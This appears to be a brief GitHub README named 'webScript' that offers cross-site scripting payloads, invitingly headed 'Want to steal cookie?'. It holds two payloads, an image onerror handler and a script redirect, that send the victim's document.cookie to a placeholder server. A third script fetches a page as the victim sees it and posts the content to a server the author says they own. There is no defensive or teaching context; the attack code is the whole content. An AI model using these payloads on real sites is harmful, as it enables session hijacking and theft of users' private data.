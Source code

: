 # webScript

## Want to steal cookie ? 
Try this:
```
<img src="" onerror="this.src='[URL]?cookie='+document.cookie;"></img>
```
```
<script>document.location='[URL]?c='+document.cookie</script>
```

## Want to know how other see some page?
```js
<script>
fetch("[URL-PAGE TO BE STOLEN]")
.then((result) => { return result.text(); })
.then((content) => {
    fetch('[URL-SERVER THAT I OWN ]?c='+content)
    ; }); 
</script>
```
